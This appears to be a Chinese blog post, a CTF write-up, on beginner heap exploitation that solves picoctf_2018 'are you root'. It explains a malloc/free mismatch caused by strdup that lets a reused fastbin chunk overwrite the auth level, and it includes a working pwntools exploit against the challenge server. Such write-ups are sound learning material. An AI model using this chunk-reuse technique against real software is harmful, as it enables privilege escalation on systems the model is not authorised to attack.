

# pwn初学者的进阶（三）：堆学习


## 0x00 前言
零零散散地看了两三天时间才把堆的一些基础内容与一道题看懂😑

## 0x01 picoctf_2018_are you root
[题目链接](https://buuoj.cn/challenges#picoctf_2018_are%20you%20root)

感天动地，我居然自己做出了一道堆题，虽然这题非常简单。

每次`login`的时候，chunk布局如下所示（假设输入用户名长度<=0x18）：
```
------------------
|       |  0x21 |  allocated
-----------------
|str_ptr| level |
------------------
|       |  0x21 |  allocated
-----------------
| str content.. |
------------------
    top chunk
```

这题的漏洞点在于，`malloc`与`free`的次数不匹配。程序中写入用户名时使用了`strdup`，**这个函数是隐含着`malloc`的调用的，而`reset`时又只进行了一次`free`调用。所以，正常的一次`login`与`reset`操作之后，chunk与fastbin的情况为：
```
------------------
|       |  0x21 |  allocated
-----------------
|str_ptr| level |
------------------
|       |  0x21 |  free
-----------------
| str content.. |
------------------
    top chunk

===================
fastbin: -> -----------------
            |       |  0x21 | 
            -----------------
            | str content.. |
            ------------------
```
所以这时再进行`login`，得到的就是写入了用户名内容的chunk，这是我们可控的。而代表auth-level的值就位于`ptr+0x8`，我们只要在第一次`login`的时候，把该处内容写为`\x05\x00\x00\x00\x00\x00\x00\x00`，然后`reset`，再`login`即可。

exp
```python
from pwn import *
context(os = 'linux', arch = 'amd64')
# context.log_level = 'debug'

p = remote('node4.buuoj.cn', 29378)

def get_flag():
    p.recvuntil(b'Enter your command:\n> ')
    p.sendline(b'get-flag')

def login(content: bytes):
    p.recvuntil(b'Enter your command:\n> ')
    p.sendline(b'login ' + content)

def reset():
    p.recvuntil(b'Enter your command:\n> ')
    p.sendline(b'reset')

payload = b'a'*0x8 + b'\x05'.ljust(8, b'\x00')

login(payload)
reset()
login(b'test')
get_flag()
p.interactive()
```



ps: `#define DWORD __uint32_t`，所以`DWORD`在x86/x64都是**4字节**大小，而不是字面意思的2倍字长。

## 0x02 hitcon2014_stkof

[题目链接](https://buuoj.cn/challenges#hitcon2014_stkof)


